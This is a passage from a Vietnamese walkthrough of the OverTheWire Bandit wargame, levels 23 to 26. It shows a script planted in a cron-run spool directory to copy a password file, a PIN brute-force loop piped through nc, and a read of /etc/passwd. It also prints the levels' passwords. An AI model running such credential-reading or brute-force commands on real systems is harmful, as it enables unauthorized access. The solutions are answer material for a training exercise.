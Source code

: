 ```bash
```

Script này đơn thuần là kiểm tra tất cả các file trong /var/spool/bandit24/foo và xóa các file có owner là bandit23. Tuy nhiên, trước khi xóa, nó lại thực thi file đó. Vì vậy, ta có thể viết script để lấy pass của bandit24. 

```bash
#!/bin/bash

cat /etc/bandit_pass/bandit24 > /tmp/trungpqt

```

Viết trong tmp và đáp nó vào trong thư mục "foo". Chúng ta sẽ ngồi chờ chương trình được thực thi và mở file trungpqt ra xem pass
```bash
bandit23@bandit:/var/spool/bandit24$ cp /tmp/payload.sh ./foo
bandit23@bandit:/var/spool/bandit24$ chmod 777 ./foo/payload.sh
bandit23@bandit:/var/spool/bandit24$ chmod 777 /tmp/trungpqt
bandit23@bandit:/var/spool/bandit24$ cat /tmp/trungpqt
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
```

### Level 24 → Level 25
Des: https://overthewire.org/wargames/bandit/bandit25.html

Đề bài yêu cầu kết nối tới cổng 30002. Chương trình sẽ bắt chúng ta nhập vào pass của bandit24 và 1 pincode gồm 4 chữ số. Ta có thể viết bashscript để thực hiện gen ra payload như sau
```bash
#!/bin/bash
for i in {0000..9999}
do
        echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i"
done
```
Sau đó ta chạy lệnh:
```bash
bandit24@bandit:/tmp$ ./pass.sh | nc localhost 30002 | grep -v "Wrong"
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.
```

Các bạn có thể viết code python pwntools nhưng nó sẽ rất lâu

### Level 25 → Level 26
Des: https://overthewire.org/wargames/bandit/bandit26.html

Ở đây, ta có được private key để ssh tới bandit26. Tuy nhiên, khi ssh tới thì bị diss lun
```bash
bandit25@bandit:~$ ssh -i bandit26.sshkey bandit26@localhost -p 2220
...
Connection to localhost closed.

```
Đọc kĩ lại đề bài, ở đây ta được biết bandit26 không dùng /bin/bash. Vậy nó dùng cái gì? Có thể kiểm tra bằng cách xem trong /etc/passwd
```bash
bandit25@bandit:~$ cat /etc/passwd | grep bandit26
bandit26:x:11026:11026:bandit level 26:/home/bandit26:/usr/bin/showtext
```
